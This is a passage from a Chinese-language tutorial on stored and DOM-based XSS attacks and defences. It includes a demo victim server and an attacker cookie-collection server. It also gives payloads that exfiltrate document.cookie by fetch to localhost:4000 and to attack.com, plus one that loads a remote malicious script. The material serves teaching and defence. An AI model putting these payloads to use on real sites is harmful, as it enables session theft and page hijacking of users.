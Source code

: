 ```js
  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）
  if (route) return route(req, res)
  res.statusCode = 404
  res.end('Not Found')
}

http.createServer(onRequest).listen(3000) // 被攻击的网站
http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开网站 `http://localhost:3000/articles/1`，发表一则评论：

```
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，不信的话你输入下面的评论试试（内含福利）：

```js
文章写的真棒！<script src="http://localhost:4000/malicious.js"></script>
```

在这个恶意脚本 `malicious.js` 里面，直接改掉了 body，想想看，所有访问你的网站的用户，看到的其实是另外一番景象，太吓人了。

### 防御方案

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致，可以根据需要选择过滤时机，例如：

- 客户端提交前进行校验过滤，如果包含恶意脚本则不提交，或者提交转义后的字符串
- 服务端接收后先校验过滤，如果包含恶意脚本则不存储到数据库，或者存储转义后的字符串
- 客户端渲染时候进行过滤，即使数据库中存储了未经转义的恶意脚本，输出转义后的字符串


### DOM 型 XSS 攻防实战

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

#### 攻击案例

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```js
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的[安全规范][innerHTML]：

> 不执行由 innerHTML 插入的 script 标签。


[dom-based]: https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability
[xss]: https://www.netsparker.com/blog/web-security/cross-site-scripting-xss
[innerHTML]: https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML
[DOMPurify]: https://github.com/cure53/DOMPurify